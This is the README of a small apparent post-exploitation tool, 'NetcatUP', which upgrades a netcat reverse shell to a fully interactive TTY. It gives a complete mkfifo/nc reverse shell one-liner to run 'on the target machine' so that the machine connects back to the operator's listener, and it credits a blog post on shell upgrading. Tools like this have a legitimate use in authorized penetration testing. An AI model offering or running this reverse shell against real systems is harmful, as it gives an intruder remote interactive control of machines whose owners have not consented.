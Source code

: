 # NetcatUP


run `./netcatup.sh port`  
run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc targetip port >/tmp/f` on the target machine  
You should now have a fully interactive shell with bash history and tab completion  

### credits: 
* https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### todo:  
* add bind support
